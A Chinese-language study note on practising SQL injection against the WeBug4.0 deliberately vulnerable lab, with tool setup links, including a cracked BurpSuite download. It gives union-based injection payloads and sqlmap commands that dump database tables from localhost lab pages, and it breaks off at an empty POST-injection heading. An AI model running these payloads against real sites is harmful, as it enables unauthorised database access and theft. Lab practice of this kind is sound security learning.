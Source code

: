 ```yaml
---
title: WeBug4.0练习笔记
date: '2020-05-19T20:18:48.000Z'
description: 在webug4.0的测试平台上测试后所写的一些测试笔记
---
```


# WeBug4.0练习笔记

> 网络安全测试笔记

## 下载部署

* WeBug4.0
  * 下载：[https://pan.baidu.com/s/1PiipS0Iheegdb2Y0gaFM8w](https://pan.baidu.com/s/1PiipS0Iheegdb2Y0gaFM8w) 提取码: rbrg
* hackbar: 火狐新版hackbar收费，解决方案如下： 1. 旧版：[https://github.com/HCTYMFF/hackbar2.1.3/archive/master.zip](https://github.com/HCTYMFF/hackbar2.1.3/archive/master.zip) 2. 替代插件：[https://addons.mozilla.org/zh-CN/firefox/addon/max-hackbar/?src=search](https://addons.mozilla.org/zh-CN/firefox/addon/max-hackbar/?src=search)

## 学习记录

工具准备：

* JAVA环境:
  * 下载：[https://www.oracle.com/java/technologies/javase/javase-jdk8-downloads.html](https://www.oracle.com/java/technologies/javase/javase-jdk8-downloads.html)
* Python环境:
  * 当前版本：python-2.7.15rc1.msi
  * 下载：[https://npm.taobao.org/mirrors/python/3.8.3/](https://npm.taobao.org/mirrors/python/3.8.3/) （因为下述使用的sqlmap是基于python2.7的）
  * 配置教程：[Python2.x安装教程及环境变量配置](https://blog.csdn.net/ITLearnHall/article/details/81318939)

> Windows系统不重启而使环境变量生效的方法 以修改环境变量`PATH`为例，修改完成后，运行`cmd`，输入`set PATH=C:`，关闭DOS窗口。再次运行`cmd`，输入`echo %PATH%`，可以发现`我的电脑`-&gt;`属性`-&gt;`高级`-&gt;`环境变量`中设置的 `PATH`值已经生效。

* BurpSuie:
  * 下载链接: [https://pan.baidu.com/s/1F36mvPsWv3Buk0G-UaKr7A](https://pan.baidu.com/s/1F36mvPsWv3Buk0G-UaKr7A) 提取码: 9hzm
  * 配置教程：[最新BurpSuite 1.7.32 破解版\[注册机\]下载【无后门版】](http://www.vuln.cn/8847)
* sqlmap:
  * 下载链接：[http://sqlmap.org/](http://sqlmap.org/)

### 显错注入

> 报错型： 构造payload让信息通过错误提示回显出来，一种类型（其它的暂时不怎么了解）是先报字段数，再利用后台数据库报错机制回显（跟一般的报错区别是，一般的报错注入是爆出字段数后，在此基础通过正确的查询语句，使结果回显到页面；后者是在爆出字段数的基础上使用能触发SQL报错机制的注入语句）

参考资料：[https://blog.csdn.net/weixin\_40709439/article/details/81355856](https://blog.csdn.net/weixin_40709439/article/details/81355856)

#### 方法一：手动注入

1. 由地址的`?id=1`可尝试猜想表的列数，构造`?id=1' order by 1 %23'`，依次推演
2. 发现到`?id=1' order by 3 %23'`报错，猜想列表有两行，构造`' union select 1,group_concat(schema_name) from information_schema.schemata%23`
3. 构造`' union select 1,group_concat(column_name) from information_schema.columns where table_name='flag' %23`
4. 构造`' union select 1,flag from webug.flag %23`

#### 方法二：使用sqlmap注入

1. 获取当前id对应的数据库：`python sqlmap.py -u  http://localhost/control/sqlinject/manifest_error.php?id=1 -p id --current-db`

![](../.gitbook/assets/2020-05-21-20-49-20.png)

1. 获取`webug`数据库存在的表：`python sqlmap.py -u  http://localhost/control/sqlinject/manifest_error.php?id=1 -p id -D webug --tables`

![](../.gitbook/assets/2020-05-21-20-51-24.png)

1. 获取flag的值：`python sqlmap.py -u  http://localhost/control/sqlinject/manifest_error.php?id=1 -p id -D webug -T flag --dump`

![](../.gitbook/assets/2020-05-21-20-53-37.png)

### 布尔注入：

> 布尔型： 页面只返回True和False两种类型页面。利用页面返回不同，逐个猜解数据

参考资料：[https://blog.csdn.net/weixin\_40709439/article/details/81355856](https://blog.csdn.net/weixin_40709439/article/details/81355856)

#### 方法一：手动布尔注入

暂无

#### 方法二：使用sqlmap注入

1. 获取当前数据库：`python sqlmap.py -u  http://localhost/control/sqlinject/bool_injection.php?id=1 -p id --current-db`

![](../.gitbook/assets/2020-05-21-21-04-41.png)

1. 获取webug数据库的表：`python sqlmap.py -u  http://localhost/control/sqlinject/bool_injection.php?id=1 -p id -D webug --tables`

![](../.gitbook/assets/2020-05-21-21-06-12.png)

1. 获取flag的值，提交FLAG的时候报错！
2. 换个表，`python sqlmap.py -u http://localhost/control/sqlinject/bool_injection.php?id=1 -D webug -T env_list --dump`

![](../.gitbook/assets/2020-05-25-19-40-05.png)

1. 获取flag值：fdsafsdfa

### 延时注入：

> 时间型：通过页面沉睡时间判断 通过 sleep（）函数测试，通过if（）和sleep（）联合逐个猜解数据

参考资料：[https://blog.csdn.net/weixin\_40709439/article/details/81355856](https://blog.csdn.net/weixin_40709439/article/details/81355856)

#### 方法一：延时注入

暂无

#### 方法二：使用sqlmap注入

1. 方法同上

### post注入


